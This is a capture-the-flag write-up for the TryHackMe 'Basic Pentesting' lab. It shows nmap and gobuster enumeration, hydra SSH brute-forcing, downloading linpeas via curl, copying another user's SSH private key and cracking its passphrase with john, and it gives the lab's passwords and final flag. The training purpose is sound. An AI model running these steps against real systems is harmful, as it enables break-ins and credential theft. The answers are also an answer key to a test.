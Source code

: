 
# Basic Pentesting

Writeup for the tryhackme room Basic Pentesting

### Find the services exposed by the machine

Use nmap tool which comes pre-installed in Kali Linux. Type the command nmap<ip-address> in bash shell

```bash
 sudo nmap 10.10.212.134
```
This will expose all the servies running on the target ip
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%201.PNG?raw=true)

### Find the hidden directory on the web server

use gobuster to bruteforce the directories , gobutser is a great tool for bruteforcing the hidden directories
on a web server

```bash
 gobuster dir -u 10.10.212.134 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture2.PNG?raw=true)

From the above bruteforcing we can find that the development/ directory is hidden on the web server,investigating
further we can see that there are two files on this hidden directory:\
1.dev.txt:\
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%203.PNG?raw=true)
2.j.txt:\
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%204.PNG?raw=true)

There is an interesting thing discovered in j.txt file,by this we can notice that j and k are the 
intials of users on the web servers.

### Bruteforcing the Username and Password
Using tools such as enum4linux we can enumerate the users on that web server and for any service possible
```bash
 enum4linux -e 10.10.212.134
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%205.PNG?raw=true)
By running the above command we can see that there are two users that have access to the webserver
Jan and Kay!\
By bruteforcing the password of the Jan user by the tool hydra which can be used to bruteforce the
service passwords like SSH,we were able to find out the password:
```bash
 sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.212.134 ssh -I
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%207.PNG?raw=true)

So the answer for the Q5? username- jan | password- armando

Also,by using this username and password we can ssh into the webserver:
```bash
 ssh jan@10.10.212.134
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%208.PNG?raw=true)

So the answer to Q7? SSH

### Enumerate for privilige escalation
We will use a simple script called LinPeas.sh which is a bash script in order to identify vectors
for privilige escalation\
But first we have to download our script into the ssh server using curl:\
```bash
 which curl
 curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
 chmod +x linpeas.sh
```
We have the following information about the web server
![nmap scan](https://miro.medium.com/max/720/1*uq-Jiai8XkCzVvM0wkFWZA.png)\
![nmap scan](https://miro.medium.com/max/720/1*Q69I_ZXBDmNqlQiDEqRX-g.png)

### Final Access
Answer to Q9? Kay\
By looking deep inside the webserver we found that the user Kay has the id_rsa key located in the
directory /home/kay/.ssh through which we can SSH into his user account

![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%209.PNG?raw=true)\
using cat command we can open the file id_rsa
```bash
 ls -la
 cat id_rsa
```
id_rsa file:

![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2010.PNG?raw=true)\

Just copy paste this file from '----BEGIN RSA PRIVATE KEY'----' till ----END RSA PRIVATE KEY ----'
to local machine name this simply as 'kay_rsa'\

Also we have to change the permissions for the kay_rsa file to work it properly,this can be done simply by
```bash
 nano kay_rsa 
 chmod 600 kay_rsa
```

![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2017.PNG?raw=true)\
After SSH into the kay user we find that the kay_rsa is passphrase protected,use of simple tool like
ssh2john can convert this passphrase file to john crackable file called pass.txt
```bash
 ssh2john kay_rsa > pass.txt
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2012.PNG?raw=true)
Now we can easily crack this pass file using johntheripper
```bash
 john pass.txt -wordlist=/usr/share/wordlists/rockyou.txt
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2013.PNG?raw=true)
the password is 'beeswax'\
Now it's time for the final access into the SSH of Kay user
```bash
 ssh -i kay_rsa kay@10.10.97.62
```
entering the above password will get us in
now opening the pass.bak file will give us the final flag of the challenge
```bash
 ls -al
 cat pass.bak
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2014.PNG?raw=true)

Hence, the final flag and answer to Q11?-heresareallystrongpasswordthatfollowsthepasswordpolicy$$









